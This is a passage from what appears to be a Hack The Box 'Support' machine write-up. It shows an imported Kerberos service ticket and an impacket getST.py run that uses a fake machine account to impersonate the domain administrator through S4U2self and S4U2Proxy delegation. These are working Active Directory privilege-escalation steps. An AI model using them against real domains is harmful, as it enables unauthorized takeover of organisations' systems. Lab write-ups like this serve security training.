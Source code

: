```bash
    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
    LnN1cHBvcnQuaHRi
[+] Ticket successfully imported!
```

### Get the TGT using getST.py
Since we have the fake machine name and it's password, all we need is to execute the following command:

```bash
╭─kali@kali ~/htb/machines/support/krb/tt 
╰─$ /usr/share/doc/python3-impacket/examples/getST.py -spn cifs/dc.support.htb support.htb/0xW43lPC\$ -impersonate administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
/usr/share/doc/python3-impacket/examples/getST.py:378: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:475: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2self
/usr/share/doc/python3-impacket/examples/getST.py:605: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
now = datetime.datetime.utcnow()
/usr/share/doc/python3-impacket/examples/getST.py:657: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting S4U2Proxy
```